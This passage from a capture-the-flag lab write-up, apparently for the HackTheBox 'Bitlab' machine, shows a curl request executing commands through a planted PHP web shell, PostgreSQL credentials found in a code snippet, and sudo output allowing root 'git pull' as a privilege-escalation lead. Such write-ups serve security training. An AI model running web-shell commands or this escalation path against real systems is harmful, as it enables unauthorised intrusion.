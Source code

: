 ```bash
$ curl -G --data-urlencode 'cmd=id' http://10.129.85.155/profile/cmd.php               
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

RCE works, so now we can get a reverse shell easily.

<figure><img src="../../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

I also looked at the Snippets available, and found one:

<figure><img src="../../../.gitbook/assets/image (164) (5).png" alt=""><figcaption></figcaption></figure>

It had some PostgreSQL Creds:

```php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

## Privilege Escalation

### PostgreSQL Credentials

We can check our privileges, and see that we can run `sudo` with `git pull`.

```
www-data@bitlab:/home/clave$ sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
```
